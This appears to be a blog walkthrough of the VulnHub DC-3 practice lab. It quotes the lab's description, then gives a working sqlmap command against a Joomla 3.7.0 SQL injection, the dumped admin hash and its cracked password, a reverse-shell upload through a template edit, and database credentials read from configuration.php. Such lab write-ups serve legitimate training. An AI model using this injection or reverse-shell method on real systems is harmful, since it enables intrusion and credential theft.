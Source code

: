 ```yaml
---
title : DC 3
categories: [Proving Grounds Play, Walkthrough, DC]
tags: [PrivEsc,dc]
---
```


## **Description ⤵️**

>
💡 [DC-3](https://vulnhub.com/entry/dc-32,312/) is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).

If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.

**TECHNICAL INFORMATION**

DC-3 is a VirtualBox VM built on Ubuntu 32 bit, so there should be no issues running it on most PCs.

Please note: There was an issue reported with DC-3 not working with VMware Workstation. To get around that, I recommend using VirtualBox, however, I have created a separate DC-3 VMware edition for those who can only use VMware.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox and away you go.

**IMPORTANT**

While there should be no problems using this VM, by downloading it, you accept full responsibility for any unintentional damage that this VM may cause.

In saying that, there shouldn't be any problems, but I feel the need to throw this out there just in case.

**CONTACT**

I'm also very interested in hearing how people go about solving these challenges, so if you're up for writing a walkthrough, please do so and send me a link, or alternatively, follow me on Twitter, and DM me (you can unfollow after you've DM'd me if you'd prefer).

I can be contacted via Twitter - @DCAU7

This works better with VirtualBox rather than VMware ## Changelog v3.2 - 2020-04-25 v3.0 - 2019-03-26

{: .prompt-info }

Let’s find the IP Address first >>

![157-1.png](/Vulnhub-Files/img/DC-3/157-1.png)

```bash
IP →  10.0.2.8
```

## Port Scan Results ➡️

![157-2.png](/Vulnhub-Files/img/DC-3/157-2.png)

```bash
OPEN PORTS >
80   HTTP
```

---

## Web Enumeration ⤵️

![157-3.png](/Vulnhub-Files/img/DC-3/157-3.png)

I found one exploit on exploitdb site for joomla 3.7.0 →

```bash
commands →
sqlmap -u "http://10.0.2.8/**index**.php?**option**=com_fields&**view**=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' --dump -p list[fullordering]
```

![157-4.png](/Vulnhub-Files/img/DC-3/157-4.png)

```bash
[02:45:21] [INFO] fetching entries for table '#__users' in database 'joomladb'
[02:45:21] [INFO] retrieved: 'freddy@norealaddress.net'
[02:45:21] [INFO] retrieved: '629'
[02:45:21] [INFO] retrieved: 'admin'
[02:45:21] [INFO] retrieved: '{"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""}'
[02:45:21] [INFO] retrieved: '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu'
[02:45:21] [INFO] retrieved: 'admin'

Database: joomladb
```

so with the help of john the ripper I got the password →

![157-5.png](/Vulnhub-Files/img/DC-3/157-5.png)

```bash
admin : snoopy
```

![157-6.png](/Vulnhub-Files/img/DC-3/157-6.png)

so I got In →

Lets upload the reverse shell code now →

![157-7.png](/Vulnhub-Files/img/DC-3/157-7.png)

After this set the reverse shell at port 4444 and then click on **`Template Preview`** →

![157-8.png](/Vulnhub-Files/img/DC-3/157-8.png)

Now lets see What I have with this shell →

`configuration.php` →

![157-9.png](/Vulnhub-Files/img/DC-3/157-9.png)

```bash
secret : 7M6S1HqGMvt1JYkY
user : root
password : squires
```

![157-10.png](/Vulnhub-Files/img/DC-3/157-10.png)

![157-11.png](/Vulnhub-Files/img/DC-3/157-11.png)

it worked →

![157-12.png](/Vulnhub-Files/img/DC-3/157-12.png)

![157-13.png](/Vulnhub-Files/img/DC-3/157-13.png)

![157-14.png](/Vulnhub-Files/img/DC-3/157-14.png)

---